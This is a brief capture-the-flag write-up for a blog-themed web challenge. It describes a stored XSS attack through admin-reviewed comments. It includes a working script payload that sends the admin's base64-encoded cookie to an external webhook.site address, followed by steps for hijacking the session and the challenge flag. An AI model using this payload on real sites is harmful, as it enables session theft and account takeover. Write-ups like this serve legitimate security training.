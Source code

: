 # Star Wars
> If you love Star Wars as much as I do you need to check out this blog!

## About the Challenge
We got another website to pentest, and there are some functionality that we can test such as register, login, giving a comment in post.

![preview](images/preview.png)
![preview-2](images/preview-2.png)

## How to Solve?
When I attempt to post a comment, my comment is reviewed by the admin first. So, I assume that this website is vulnerable to XSS, and we need to steal the admin's cookie. To steal the admin cookie, im using this simple XSS payload

```
<script>var i=new Image(); i.src="https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie="+btoa(document.cookie);</script>
```

![review](images/review.png)

Submit the payload and then wait until you got a pingback. And voila, you got an admin cookie

![webhook](images/webhook.png)

Decode the cookie using `base64` and then replace your cookie with the admin cookie. After that, go to `/admin` endpoint to obtain the flag

![flag](images/flag.png)

```
flag{a538c88890d45a382e44dfd00296a99b}
```